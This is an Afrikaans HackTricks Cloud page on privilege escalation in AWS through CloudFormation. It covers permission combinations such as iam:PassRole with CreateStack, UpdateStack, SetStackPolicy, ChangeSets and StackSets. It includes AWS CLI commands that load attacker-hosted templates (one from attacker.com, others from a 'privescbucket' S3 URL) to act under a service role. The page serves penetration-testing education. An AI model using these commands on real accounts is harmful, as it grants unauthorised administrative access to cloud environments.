 # AWS - Cloudformation Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudformation

Vir meer inligting oor cloudformation kyk:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

'n Aanvaller met hierdie toestemmings **kan priviledge verhoog** deur 'n **CloudFormation stapel** te skep met 'n pasgemaakte sjabloon, gehos op hul bediener, om **aksies uit te voer onder die toestemmings van 'n gespesifiseerde rol:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
In die volgende bladsy het jy 'n **uitbuiting voorbeeld** met die bykomende toestemming **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Potensiële Impak:** Privesc na die cloudformation diensrol wat gespesifiseer is.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

In hierdie geval kan jy 'n **bestaande cloudformation stapel** misbruik om dit op te dateer en voorregte te verhoog soos in die vorige scenario:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
Die `cloudformation:SetStackPolicy` toestemming kan gebruik word om **jouself `UpdateStack` toestemming** oor 'n stapel te gee en die aanval uit te voer.

**Potensiële Impak:** Privesc na die cloudformation diensrol gespesifiseer.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

As jy hierdie toestemming het maar **geen `iam:PassRole`** nie, kan jy steeds **die stapels** wat gebruik word opdateer en die **IAM Rolle wat hulle reeds aangeheg het** misbruik. Kyk na die vorige afdeling vir 'n eksploit voorbeeld (moet net nie enige rol in die opdatering aandui nie).

Die `cloudformation:SetStackPolicy` toestemming kan gebruik word om **jouself `UpdateStack` toestemming** oor 'n stapel te gee en die aanval uit te voer.

**Potensiële Impak:** Privesc na die cloudformation diensrol wat reeds aangeheg is.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

'n Aanvaller met toestemmings om **'n rol oor te dra en 'n ChangeSet te skep & uit te voer** kan **'n nuwe cloudformation stapel skep/opdateer en die cloudformation diensrolle misbruik** net soos met die CreateStack of UpdateStack.

Die volgende eksploit is 'n **variasie van die**[ **CreateStack een**](./#iam-passrole-cloudformation-createstack) wat die **ChangeSet toestemmings** gebruik om 'n stapel te skep.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
Die `cloudformation:SetStackPolicy` toestemming kan gebruik word om **vir jouself `ChangeSet` toestemmings** oor 'n stap te gee en die aanval uit te voer.

**Potensiële Impak:** Privesc na cloudformation diens rolle.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Dit is soos die vorige metode sonder om **IAM rolle** oor te dra, so jy kan net **alreeds aangehegte eenhede misbruik**, net die parameter aanpas:
```
--change-set-type UPDATE
```
**Potensiële Impak:** Privesc na die cloudformation diensrol wat reeds aangeheg is.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

'n Aanvaller kan hierdie toestemmings misbruik om StackSets te skep/op te dateer om arbitrêre cloudformation rolle te misbruik.

**Potensiële Impak:** Privesc na cloudformation diensrolle.

### `cloudformation:UpdateStackSet`

'n Aanvaller kan hierdie toestemming misbruik sonder die passRole toestemming om StackSets op te dateer om die aangehegte cloudformation rolle te misbruik.

**Potensiële Impak:** Privesc na die aangehegte cloudformation rolle.

## Verwysings

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
